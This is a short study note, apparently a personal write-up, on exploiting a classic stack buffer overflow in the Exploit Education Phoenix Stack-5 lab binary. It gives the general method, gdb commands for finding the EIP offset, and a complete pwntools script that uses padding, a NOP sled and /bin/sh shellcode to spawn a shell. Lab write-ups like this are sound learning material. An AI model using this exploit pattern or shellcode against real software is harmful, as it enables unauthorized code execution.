 ## General Thought Process
- Find the offset to overwrite eip
- Find the address where eip is saved on the stack (using breakpoint to ret instruction in the called function)
- Now create payload starting with padding then overwrite the eip so that it lands somewhere in between nops which will placed on stack right after saved eip, and after the noops is our shellcode

## Example (Exploit Ed, Phoenix Stack-5)
- Finding the offset
```
(gdb) pattern create 200
(gdb) r < <(echo 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab')
```

![[Pasted image 20201113202623.png]]

![[Pasted image 20201113204033.png]]
`Offset - 140`
- Exploit 
```py
#!/usr/bin/python
from pwn import *
target = process('/opt/phoenix/i486/stack-five')
payload = 'A'*140  #padding
payload += p32(0xffffd70c+30) # address somewhere in between nops
payload += '\x90'*400 #  no ops
payload +=  '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' # shellcode
target.sendline(payload)
target.interactive()

```
